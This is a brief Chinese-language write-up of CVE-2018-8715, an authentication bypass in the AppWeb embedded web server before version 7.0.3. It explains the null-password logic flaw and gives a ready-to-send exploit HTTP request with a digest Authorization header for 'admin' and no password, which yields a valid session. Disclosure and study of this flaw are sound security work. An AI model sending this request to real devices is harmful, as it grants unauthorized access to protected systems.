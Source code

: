 # AppWeb认证绕过漏洞（CVE-2018-8715）

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web  Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web  Application容器。

[分析文章](https://ssd-disclosure.com/ssd-advisory-appweb-authentication-bypass-digest-and-forms/)

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

### exp

```
GET / HTTP/1.1
Host: xx.xxx.xxx.xx:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Authorization: Digest username="admin"
```

因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session，设置这个session到浏览器，即可正常访问需要认证的页面。
